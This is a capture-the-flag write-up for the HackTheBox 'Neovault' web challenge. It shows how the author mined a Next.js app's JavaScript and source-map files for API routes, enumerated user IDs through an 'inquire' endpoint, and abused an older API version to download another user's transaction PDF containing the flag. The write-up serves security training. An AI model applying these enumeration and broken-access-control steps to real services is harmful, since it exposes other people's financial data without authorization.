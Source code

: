 ```yaml
---
date:
  created: 2025-08-04
categories:
  - CTF Writeup
  - Hackthebox
  - JavaScript Analysis
  - Web Application Penetration Testing
authors:
  - dibsy
---
```


# HTB Neovault Writeup

### Summary

This challenge involved client-side reconnaissance through JavaScript `.map` and `.js` files served by a Next.js application. By mining and crawling those files, we uncovered hidden API endpoints, enumerated users via an `inquire` endpoint, and eventually downloaded user-specific transaction PDFs to retrieve the flag.

<!-- more -->

### Reconnaissance with JS Miner

Using **JS Miner**, we crawled source files and `.map` files from a Next.js application hosted at:

```
http://94.237.54.192:40799/_next/static/chunks/...
```

Some sample file hits:
```
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/app/dashboard/transactions/page-2a49e3cac0ce0da4.js
[SKIPPED] Task ID: 2 SECRETS_SCAN http://94.237.54.192:40799/_next/static/chunks/181-787eb1c908725cd7.js
```

### Cleaning and Downloading JS Files

First, we cleaned the JS file URLs from the output.

```bash
grep -oE 'http://[^ ]+' out.txt > urls.txt
```

Then, downloaded all files using:

```bash
for url in $(cat urls.txt); do curl -O $url; done
```

### Extracting API Endpoints

A combination of `grep` commands was used to extract API paths:

```bash
(
  grep -Eroh '"/[a-zA-Z0-9_\/\.\-]+' *.js* ;
  grep -Eroh '"https?:\/\/[^"]+/[a-zA-Z0-9_\/\.\-]+' *.js* ;
  grep -Eroh 'fetch\(["'"'"']/[a-zA-Z0-9_\/\.\-]+' *.js* ;
  grep -Eroh 'axios\.(get|post|put|delete)\(["'"'"']/[a-zA-Z0-9_\/\.\-]+' *.js*
) | sed 's/^"//' | sort -u > api_endpoints.txt

```

This revealed multiple interesting API routes:

```
/api/v1/auth/login
/api/v1/auth/me
/api/v1/transactions/deposit
/api/v2/auth/inquire
/api/v2/transactions/categories-spending
...
```

### Enumerating Users

While investigating `/api/v2/transactions`, we noticed a transaction **received from `neo_system`**.

We queried the `inquire` endpoint:

!!! info "GET /api/v2/auth/inquire?username=neo_system"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a87775",
  "username": "neo_system"
}
```

### Exploring the Download API

The `download-transactions` API could export a user’s transaction history as PDF.

- `/api/v2/transactions/download-transactions` didn’t require an `_id`.
- However, the same endpoint in `v1` version **did require an `_id`**.

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a87775"
}
```

The PDF showed a transaction from user: `user_with_flag`.

### Final Enumeration & Flag Retrieval

Queried `user_with_flag` using the same method:

!!! info "GET /api/v2/auth/inquire?username=user_with_flag"
```http
Host: 94.237.54.192:40799
```

Response:
```json
{
  "_id": "6890ef01ab3aae0490a8777a",
  "username": "user_with_flag"
}
```

Used the `_id` to download the final PDF:

!!! info "POST /api/v1/transactions/download-transactions"
```json
{
  "_id": "6890ef01ab3aae0490a8777a"
}
```

In the PDF we find:

```
7/28/2025 user_with_flag user_with_flag HTB{n0t_s0_..........}
7/28/2025 neo_system user_with_flag Welcome bonus credit Amount 1337.00
```

### Conclusion

This challenge demonstrated the importance of **client-side JavaScript analysis**. Mining `.map` files and source code led to full API discovery, user enumeration, and a privilege escalation-like workflow by exploiting version differences between API endpoints.
